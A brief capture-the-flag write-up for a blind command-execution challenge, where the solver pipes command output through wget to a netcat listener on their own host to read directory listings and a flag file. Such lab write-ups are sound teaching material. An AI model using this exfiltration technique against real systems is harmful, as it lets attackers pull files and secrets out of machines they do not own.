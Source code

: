 
## Blind

# The challenge:

I'm totally blind ... or am i?

Connect using nc 13.251.87.147 5002



# Writeup

We do a nc 13.251.87.147 5002.
We find a kind of bash. Testing few command (cat, ls etc...) we got in return a integer (0,1 or 127 in my test).
I did a ping www.google.fr and didn't get an answer fast. That means that the cmd are really executed.
So I opened a terminal on my computer:
    ```bash
    nc -l 8080and do a 
    ```
and on the challenge :
```bash
    wget http://X.X.X.X:8080?$(ls | base64)
```

we can capture on our terminal the request with the result of the ls command. There is a file flag.txt.
so, I did wget http://93.8.152.202:8080?$(cat flag.txt)

we got : YXhhY3RmezN4MXRfYzBkM180cjNfdmVyeV9wMHczcmZ1bGxfN2gxbmc1fQo=
so axactf{3x1t_c0d3_4r3_very_p0w3rfull_7h1ng5}.


